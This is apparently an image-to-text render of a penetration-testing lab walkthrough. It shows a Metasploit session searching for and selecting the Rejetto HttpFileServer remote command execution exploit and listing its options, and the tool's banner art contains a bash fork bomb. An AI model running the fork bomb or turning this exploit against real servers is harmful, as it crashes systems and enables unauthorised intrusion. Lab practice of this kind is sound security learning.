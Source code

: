                        /-                        /yo-    .ence.N:(){ :|: & };:
                                                 `:Shall.We.Play.A.Game?tron/
                                                 ```-ooy.if1ghtf0r+ehUser5`
                                               ..th3.H1V3.U2VjRFNN.jMh+.`
                                              `MjM~~WE.ARE.se~~MMjMs
                                               +~KANSAS.CITY's~-`
                                                J~HAKCERS~./.`
                                                .esc:wq!:`
                                                 +++ATH`
                                                  `


       =[ metasploit v6.1.4-dev                           ]
+ -- --=[ 2162 exploits - 1147 auxiliary - 367 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: Display the Framework log using the
log command, learn more with help log

msf6 > show options
#I was still unsure what exactly to do, but I know the web server is rejetto http, and the cve exploit
#so I went on to search for rejetto:
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

#I got one exploit so I proceeded to 'use' this
#now, there is the standard reverse_tcp payload configured so I will just use this
#there are some requirements that I will have to set:
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-fra
                                         mework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be a
                                         n address on the local machine or 0.0.0.0 to listen on all addre
                                         sses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host
